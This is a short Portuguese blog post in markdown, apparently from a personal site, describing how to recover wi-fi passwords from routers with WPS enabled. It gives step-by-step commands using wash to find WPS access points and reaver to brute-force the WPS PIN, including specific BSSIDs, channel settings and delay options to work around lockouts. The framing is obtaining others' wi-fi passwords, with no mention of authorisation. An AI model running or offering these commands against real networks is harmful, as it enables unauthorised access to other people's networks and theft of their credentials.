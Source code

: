 ```yaml
---
title: "Encontrar senha <i>wi-fi</i> que usam WPS"
date: 2023-11-01T00:00:00-03:00
last_modified_at: 2023-11-01T00:00:00-03:00
excerpt_separator: "<!--more-->"
categories:
  - IT
  - Hacks
tags:
  - wi-fi
---
```


Seguindo o vídeo [Hack wifi with wps crack using reaver in kali linux 2018.1](https://www.youtube.com/watch?v=5ad8pCbkhOw) vi a possibilidade de descobrir senhas _wi-fi_ de roteadores que usam WPS, sem que seja definido um limite de testes. Outro site detalha outras opções que podem aperfeiçoar o código [**WPS Cracking with Reaver**](https://outpost24.com/blog/wps-cracking-with-reaver).

Passa a passo

1. Colocar o adaptar wifi em _monitor mode_
2. Com _wash_, descobrir as redes com WPS na região
3. Com _reaver_, usar o brutal force

<br>

---

## Wash

O [_Wash_](https://github.com/t6x/reaver-wps-fork-t6x) é uma ferramenta de varredura de rede sem fio que identifica pontos de acesso habilitados para WPS (Wi-Fi Protected Setup). Ele pode ser usado para detectar pontos de acesso sem fio vulneráveis e é frequentemente usado em testes de penetração. O Wash pode ser executado em um arquivo _pcap_ ou em uma interface ao vivo.

O comando abaixo lista todas as redes que estão com WPS ativo.

```bash
# This shows all WPS enabled APs using wireless interface.
sudo wash --interface wlan0mon
```

<br>

---

## Reaver

O Reaver é uma ferramenta de ataque de força bruta contra o número PIN do WPS (Wi-Fi Protected Setup) de um ponto de acesso sem fio. Uma vez que o PIN WPS é encontrado, a chave PSK WPA pode ser recuperada e, alternativamente, as configurações sem fio do ponto de acesso podem ser reconfiguradas. O Reaver pode ser executado em um arquivo pcap ou em uma interface ao vivo.

```bash
# Help
reaver --help

# Simple Attack
sudo reaver --interface wlan0mon --bssid 90:F6:52:F0:C5:B4 -vv

# Attack with parameters (wait 15 seconds between tries)
sudo reaver --interface wlan0mon --bssid 50:C7:BF:25:57:6D --channel 6 --dh-small --no-nacks --delay=15 --lock-delay=70 -vvv
```

<br>

## Referências

- https://shehackske.medium.com/how-to-hack-wpa-wpa2-wifi-with-reaver-426899cbcf06
